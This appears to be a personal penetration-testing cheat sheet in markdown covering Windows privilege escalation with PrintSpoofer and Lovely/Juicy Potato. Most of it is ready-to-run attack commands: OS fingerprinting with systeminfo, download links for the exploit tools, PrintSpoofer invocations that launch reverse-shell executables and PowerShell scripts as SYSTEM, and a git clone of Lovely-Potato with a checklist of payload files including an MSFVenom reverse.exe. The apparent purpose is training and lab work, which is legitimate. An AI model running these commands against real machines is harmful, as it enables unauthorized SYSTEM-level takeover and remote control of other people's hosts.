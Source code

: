 #### PrintSpoofer
**If Windows server, try PrintSpoofer!**

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

```
https://github.com/itm4n/PrintSpoofer/releases
```

Transfer to target.

[[4._File Transfers]]

[[1._rlwrap]]

Use either exe or ps1 for reverse shell:

[[1._Reverse Shells (WIN)#Stageless Payloads]]
```
PrintSpoofer64.exe -c "cmd /c powershell -c C:\Windows\Temp\Tools\reverse64.exe"
```

OR

[[1._Reverse Shells (WIN)#Powershell reverse TCP]]

OR

[[1._Reverse Shells (WIN)#PowerShell 1 liner]]

```batch - windows
PrintSpoofer64.exe -c "cmd /c powershell -c C:\Users\thecybergeek\AppData\Local\Temp\Shelly.ps1"
```

Start another listener on Kali.

[[1._rlwrap]]

5. Now run the PrintSpoofer exploit to trigger a reverse shell running with SYSTEM privileges:

```batch - windows
C:\PrivEsc\PrintSpoofer.exe –i -c "C:\PrivEsc\reverse.exe"
```

#### Juicy Potato-Lovely
```bash - kali
git clone https://github.com/TsukiCTF/Lovely-Potato && cd Lovely-Potato
```

[[Python#Server]]

[[1._Reverse Shells (WIN)#MSFVenom]]

MAKE SURE YOU HAVE ALL THESE FILES IN LOVELY-POTATO FOLDER:
- [ ] Invoke-LovelyPotato.ps1
- [ ] JuicyPotato-Static.exe
- [ ] test_clsid.bat
- [ ] reverse.exe

[[1._rlwrap]]

